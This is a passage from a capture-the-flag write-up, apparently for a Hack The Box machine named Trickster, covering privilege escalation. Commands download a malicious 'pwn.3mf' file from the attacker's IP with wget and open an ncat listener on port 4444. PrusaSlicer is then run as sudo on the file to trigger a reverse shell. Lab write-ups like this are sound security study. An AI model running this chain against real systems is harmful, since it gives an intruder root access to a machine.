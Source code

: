 Download the 3mf file onto the target:
```shell
adam@trickster:~$ wget http://10.10.14.235:8181/pwn.3mf
--2025-01-20 20:05:25--  http://10.10.14.235:8181/pwn.3mf
Connecting to 10.10.14.235:8181... connected.
HTTP request sent, awaiting response... 200 OK
Length: 141805 (138K) [application/octet-stream]
Saving to: ‘pwn.3mf’

pwn.3mf                     100%[===========================================>] 138.48K  --.-KB/s    in 0.1s

2025-01-20 20:05:25 (941 KB/s) - ‘pwn.3mf’ saved [141805/141805]
```

Start our ncat listener on our attacker machine:
```shell
❯ sudo ncat -l 10.10.14.235 -nvp 4444
Password:
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on 10.10.14.235:4444
```

Finally, we can run `prusaslicer` as sudo to initiate our reverse shell connection back to our attacker machine:
```shell
adam@trickster:~$ sudo /opt/PrusaSlicer/prusaslicer -s pwn.3mf
10 => Processing triangulated mesh
10 => Processing triangulated mesh
20 => Generating perimeters
20 => Generating perimeters
30 => Preparing infill
45 => Making infill
30 => Preparing infill
10 => Processing triangulated mesh
20 => Generating perimeters
45 => Making infill
10 => Processing triangulated mesh
30 => Preparing infill
20 => Generating perimeters
45 => Making infill
30 => Preparing infill
45 => Making infill
10 => Processing triangulated mesh
20 => Generating perimeters
30 => Preparing infill
45 => Making infill
65 => Searching support spots
65 => Searching support spots
65 => Searching support spots
65 => Searching support spots
65 => Searching support spots
69 => Alert if supports needed
print warning: Detected print stability issues:

Loose extrusions
Shape-Sphere, Shape-Sphere, Shape-Sphere, Shape-Sphere

Collapsing overhang
Shape-Sphere, Shape-Sphere, Shape-Sphere, Shape-Sphere

Low bed adhesion
TRICKSTER.HTB, Shape-Sphere, Shape-Sphere, Shape-Sphere, Shape-Sphere

Consider enabling supports.
```